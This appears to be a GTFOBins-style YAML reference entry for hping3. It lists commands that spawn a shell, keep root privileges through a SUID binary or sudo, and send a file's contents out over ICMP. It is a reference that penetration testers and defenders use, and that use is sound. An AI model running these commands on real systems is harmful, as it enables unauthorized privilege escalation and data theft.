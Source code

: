 ```yaml
---
functions:
  shell:
    - code: |
        hping3
        /bin/sh
  suid:
    - code: |
        ./hping3
        /bin/sh -p
  file-read:
    - description: It is possible to send specific file contents if hping3 has sufficient permission.
    - code: |
        hping3 --icmp 127.0.0.1 --listen --signature --safe
        hping3 --icmp 127.0.0.1 --d 100 --c 2 --sign signature --file ./file.txt
  sudo:
    - code: |
        sudo hping3
        /bin/sh
---
```

